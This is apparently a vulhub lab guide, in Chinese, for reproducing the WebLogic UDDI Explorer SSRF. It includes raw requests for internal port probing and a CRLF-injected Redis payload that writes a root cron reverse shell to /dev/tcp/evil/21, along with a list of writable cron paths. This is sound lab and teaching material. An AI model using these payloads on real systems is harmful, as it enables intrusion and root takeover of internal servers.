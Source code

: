 # Weblogic UDDI Explorer SSRF漏洞

Oracle WebLogic Server是一个基于Java的企业级应用服务器。在WebLogic的UDDI Explorer应用中存在一个服务器端请求伪造（SSRF）漏洞，攻击者可以通过该漏洞发送任意HTTP请求，进而可能导致内网探测或攻击内网中的脆弱服务，如Redis等。

参考链接：

- <https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf>
- <https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/>
- <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>

## 环境搭建

执行如下命令启动WebLogic服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:7001/uddiexplorer/`即可查看UDDI Explorer应用，无需登录认证。

## 漏洞复现

SSRF漏洞存在于SearchPublicRegistries.jsp页面中。我们可以使用Burp Suite向`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`发送请求来测试该漏洞。

首先，我们尝试访问一个内部服务，如`http://127.0.0.1:7001`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

当访问一个可用端口时，会收到一个带有状态码的错误响应。如果访问的是非HTTP协议，则会返回"did not have a valid SOAP content-type"错误。

![](1.png)

当访问一个不存在的端口时，响应会显示"could not connect over HTTP to server"。

![](2.png)

通过分析这些不同的错误信息，我们可以有效地探测内网状态。

### Redis反弹Shell利用

WebLogic的SSRF漏洞有一个显著特点：尽管是GET请求，我们可以通过传入`%0a%0d`来注入换行符。由于Redis等服务使用换行符来分隔命令，我们可以利用这一特性来攻击内网中的Redis服务器。

首先，我们扫描内网中的Redis服务器（Docker网络通常使用172.*网段），发现`172.18.0.2:6379`可以访问：

![](3.png)

然后，我们可以发送三条Redis命令，将shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

对这些命令进行URL编码：

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

通过SSRF漏洞发送编码后的payload：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

![](4.png)

成功获得反弹shell：

![](5.png)

需要注意的是，可以利用的cron位置有以下几处：
- `/etc/crontab`（系统默认定时任务文件）
- `/etc/cron.d/*`（系统定时任务目录）
- `/var/spool/cron/root`（CentOS系统下root用户的定时任务文件）
- `/var/spool/cron/crontabs/root`（Debian系统下root用户的定时任务文件）
